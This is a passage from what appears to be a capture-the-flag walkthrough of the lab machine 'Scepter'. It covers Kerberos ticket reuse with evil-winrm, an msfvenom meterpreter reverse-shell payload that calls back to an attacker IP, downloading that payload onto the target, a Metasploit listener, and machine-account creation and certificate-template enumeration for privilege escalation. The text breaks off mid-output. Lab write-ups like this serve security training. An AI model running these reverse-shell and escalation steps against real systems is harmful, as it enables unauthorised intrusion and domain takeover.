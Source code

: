 ## Exporting h.brown’s ccache file

```bash
export KRB5CCNAME=h.brown.ccache
```

## evil-winrm with h.brown

```bash
evil-winrm -i dc01.scepter.htb -u h.brown
```

**User flag done!**
---
## Creating the payload

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.8 LPORT=4444 -f exe -o dara.exe
```
## Downloading to target

```bash
Invoke-WebRequest -Uri "http://10.10.14.8/dara.exe" -OutFile "dara.exe"
```

## Setting up msfconsole

```bash
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.10.14.8
lhost => 10.10.14.8
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
```

## Privilege escalation – creating new machine account, Shadow Credentials

```bash
bloodyAD --host dc01.scepter.htb -d scepter.htb -u a.carter -p 'NoSecHere!' --dc-ip 10.10.11.65 add computer nosecpc 'Password123'
[+] nosecpc created
```

## Checking exact CA and Template name


```bash
certipy find -u 'nosecpc$' -p 'Password123' -target 10.10.11.65

Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 35 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 13 enabled certificate templates
[*] Trying to get CA configuration for 'scepter-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'scepter-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'scepter-DC01-CA' via RRP
```